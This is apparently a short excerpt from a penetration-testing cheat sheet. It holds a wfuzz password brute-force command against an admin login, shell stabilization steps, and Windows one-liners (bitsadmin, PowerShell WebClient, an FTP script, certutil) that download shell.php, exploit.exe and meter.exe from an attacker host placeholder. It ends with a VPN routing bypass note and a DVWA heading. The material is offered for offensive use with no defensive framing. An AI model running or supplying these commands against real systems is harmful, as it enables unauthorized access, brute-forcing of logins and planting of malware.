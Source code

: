```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
<pre>
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
bash
</pre>

<a name="windowstransfer"></a><h3> Windows File Transfer </h3>

<b>bitsadmin</b>

`bitsadmin /transfer debjob /download /priority normal http://<ip>/shell.php c:\xampp\htdocs\shell.php`

<b>cscript wget.vbs (code on the repo)</b>

`cscript wget.vbs http://<ip>/test.txt test.txt`

<b>powershell</b>

`powershell -c "(new-object System.Net.WebClient).Downloadfile('http://<ip>/exploit.exe', 'C:\Windows\temp\exploit.txt')"`

<b>ftp</b>

client:

<pre>
echo open [ip] [port] > ftpscript.txt
echo anonymous>> ftpscript.txt
echo PASS >> ftpscript.txt
echo bin >> ftpscript.txt
echo get meter.exe>> ftpscript.txt
echo quit >> ftpscript.txt
ftp -s:ftpscript.txt
</pre>

server:

<code>python -m pyftpdlib  --port=2121 --write</code>

<b>wget.exe</b>

Upload to vulnerable server from kali: ` /usr/share/windows-binaries/wget.exe`

`wget.exe http://<ip>/file file`

<b> certutil </b>

`certutil -urlcache -split -f  https://<ip>/file.txt file.txt`
  
<a name="vpnrestrict"></a><h3> Bypass VPN routing restrictions </h3>

<pre>openconnect vpnXXX02.XXXX.com -u XX -s ‘vpn-slice XXX.46.0.0/16 hostname3 mantis=XXX.46.224.68’</pre>

![vpn](https://user-images.githubusercontent.com/7115563/34785073-5f76d2ce-f630-11e7-9acb-2fbe9e74494b.png)

Reference: https://github.com/dlenski/vpn-slice

# Damn Vulnerable Web Application (DVWA) 
```